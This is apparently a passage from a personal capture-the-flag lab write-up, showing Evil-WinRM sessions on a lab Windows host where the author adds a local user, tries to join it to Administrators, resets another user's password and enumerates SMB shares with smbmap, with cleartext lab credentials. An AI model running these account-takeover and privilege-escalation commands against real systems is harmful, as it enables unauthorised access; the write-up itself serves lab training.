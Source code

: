 Okay this should have worked. But what else ... ? 

Meanwhile, let's login as `buse`, and add ourselves to the network :D `net user <username> <password> /add`.

```
*Evil-WinRM* PS C:\Users\buse\Documents> net user tanishq ChangeMe#1234 /add
The command completed successfully.
```

```
*Evil-WinRM* PS C:\Users\buse\Documents> net localgroup Administrators tanishq /add
net.exe : System error 5 has occurred.
    + CategoryInfo          : NotSpecified: (System error 5 has occurred.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

Access is denied.
```

Ah shet. We dont have enough permissions to add ourselves. 

Let's try `smbmap` and `smbclient` for brittany instead.

```
❯ smbmap -u brittanycr -p ChangeMe#1234 -H 10.10.16.138
[+] IP: 10.10.16.138:445        Name: 10.10.16.138                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Shared                                                  READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY

```

So the password has changed, and we can login! We get the `hosts.txt` file, finally. 
```
❯ cat hosts.txt
google.com
cisco.com
```

Now, add the commands, and put the file. Easy? my dumbass still can't figure that. 

:(((

Redoing it, since there may be some issues.

===============================================================================


Changing brittany's password ... 

```
❯ evil-winrm -u buse -p uzunLM+3131 -i 10.10.74.141

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\buse\Documents> net user brittanycr ChangeMe#1234
The command completed successfully.
```
